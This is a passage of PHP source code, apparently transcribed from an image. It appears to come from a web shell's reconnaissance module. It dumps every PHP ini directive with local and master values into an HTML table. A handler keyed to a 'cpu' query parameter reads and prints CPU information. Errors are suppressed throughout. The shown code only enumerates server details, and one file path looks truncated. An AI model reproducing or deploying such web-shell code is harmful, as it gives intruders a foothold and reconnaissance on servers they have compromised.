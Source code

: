  {
 @ob_start();
 print_r($value);
 $value = @ob_get_contents();
 @ob_end_clean();
 }
 return U_wordwrap((string) $value);
 }
function U_wordwrap($str)
 {
 $str = @wordwrap(@htmlspecialchars($str), 100, '&lt;wbr /&gt;', true);
 return @preg_replace('!(&[^;]*)&lt;wbr /&gt;([^;]*;)!', '$1$2&lt;wbr /&gt;', $str);
 }
if (@function_exists('ini_get_all'))
 {
 $r = '';
 echo '&lt;table width=100%&gt;', '&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;div align=center&gt;&lt;b&gt;Directive&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;div align=center&gt;&lt;b&gt;Local Value&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;div align=center&gt;&lt;b&gt;Master Value&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;';
 foreach (@ini_get_all() as $key=&gt;$value)
  {
  $r .= '&lt;tr&gt;&lt;td&gt;'.ws(3).'&lt;font face=Verdana size=-2&gt;&lt;b&gt;'.$key.'&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;'.U_value($value['local_value']).'&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;'.U_value($value['global_value']).'&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;';
  }
 echo $r;
 echo '&lt;/table&gt;';
 }
echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
die();
}
if(isset($_GET['cpu']))
 {
   echo $head;
   echo '&lt;table width=100%&gt;&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;b&gt;CPU&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width=100%&gt;';
   $cpuf = @file("cpuinfo");
   if($cpuf)
    {
      $c = @sizeof($cpuf);
      for($i=0;$i&lt;$c;$i++)
        {
          $info = @explode(":",$cpuf[$i]);
          if($info[1]==""){ $info[1]="---"; }
          $r .= '&lt;tr&gt;&lt;td&gt;'.ws(3).'&lt;font face=Verdana size=-2&gt;&lt;b&gt;'.trim($info[0]).'&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&lt;div align=center&gt;&lt;b&gt;'.trim($info[1]).'&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;';
        }
      echo $r;
    }
   else
    {
      echo '&lt;tr&gt;&lt;td&gt;'.ws(3).'&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt; --- &lt;/b&gt;&lt;/font&gt;&lt;/div&gt;&lt;/td&gt;&lt;/tr&gt;';
    }
   echo '&lt;/table&gt;';